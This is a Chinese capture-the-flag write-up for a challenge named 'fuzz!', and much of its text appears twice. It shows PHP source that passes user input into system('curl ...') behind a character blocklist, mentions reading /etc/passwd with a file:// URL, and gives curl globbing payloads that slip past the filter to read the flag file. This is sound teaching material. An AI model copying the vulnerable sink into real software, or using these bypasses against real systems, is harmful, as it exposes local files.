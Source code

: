 ## fuzz!


***

出题人：Jay17

![image-20240413223118931](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413223118931.png)

直接给了源码：

````php
## fuzz!

***

出题人：Jay17

直接给了源码：

```php
<?php
/*
Read /flaggggggg.txt
Hint: 你需要学会fuzz，看着键盘一个一个对是没有灵魂的
知识补充：curl命令也可以用来读取文件哦，如curl file:///etc/passwd
*/
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
highlight_file(__FILE__);
$file = 'file:///etc/passwd';
if(preg_match("/\`|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\\\\|\'|\"|\;|\<|\>|\,|\?|jay/i", $_GET['file'])){
    die('你需要fuzz一下哦~');
}
if(!preg_match("/fi|le|flag/i", $_GET['file'])){
    $file = $_GET['file'];
}
system('curl '.$file);

```

curl命令参数用花括号绕过过滤。具体参考asisctf。题目会引导选手进行fuzz，会fuzz就会找出没过滤的花括号，加上一点意识和尝试就能解除本题。

首先拿burp进行单个字符的fuzz。以便于更快速找到未被过滤的字符。（fuzz只出现两次就是没被过滤）

![descript](media/c21a4c0aabebb2deef50b75c782d9720.png)

关键是没过滤\`{}\`、\`[]\`、\`-\`。由此我们可以得到以下两个paylaod：

```
?file=f{i}l{e}:///fl{a}ggggggg.txt

或者正则匹配绕过

?file=f[i-i]l[e-e]:///fl[a-a]ggggggg.txt

```

![descript](media/9e03bcad3a3f855ceda202db0fa0d2e2.png)

![descript](media/a16d40e385da15254adf7d1d00bdbf6b.png)


````

curl命令参数用花括号绕过过滤。具体参考asisctf。题目会引导选手进行fuzz，会fuzz就会找出没过滤的花括号，加上一点意识和尝试就能解除本题。

首先拿burp进行单个字符的fuzz。以便于更快速找到未被过滤的字符。（fuzz只出现两次就是没被过滤）

![descript](media/c21a4c0aabebb2deef50b75c782d9720.png)

关键是没过滤\`{}\`、\`[]\`、\`-\`。由此我们可以得到以下两个paylaod：

```
?file=f{i}l{e}:///fl{a}ggggggg.txt

或者正则匹配绕过

?file=f[i-i]l[e-e]:///fl[a-a]ggggggg.txt

```

![descript](media/9e03bcad3a3f855ceda202db0fa0d2e2.png)

![descript](media/a16d40e385da15254adf7d1d00bdbf6b.png)




